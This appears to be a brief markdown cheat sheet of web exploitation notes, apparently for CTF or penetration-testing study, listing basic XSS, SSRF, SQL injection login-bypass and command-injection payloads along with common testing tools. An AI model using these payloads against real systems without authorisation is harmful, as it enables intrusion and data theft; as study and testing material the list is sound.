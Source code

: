 # Web Exploitation Notes

## 🐞 XSS (Cross-Site Scripting)
- `<script>alert(1)</script>`
- `"><img src=x onerror=alert(1)>`

## 🛰️ SSRF (Server-Side Request Forgery)
- Input: `http://127.0.0.1:8000/admin`
- Use DNS logging services to detect: `burpcollaborator.net`

## 🔒 SQL Injection
- `admin' --`
- `' OR 1=1 --`
- Bypass login: `' OR '1'='1`

## 📦 Command Injection
- Input: `; ls -la`
- Use `&&`, `||`, `|`, backticks `` ` ``

## 🧠 Tools
- Burp Suite
- FFUF / Gobuster
- HTTPie
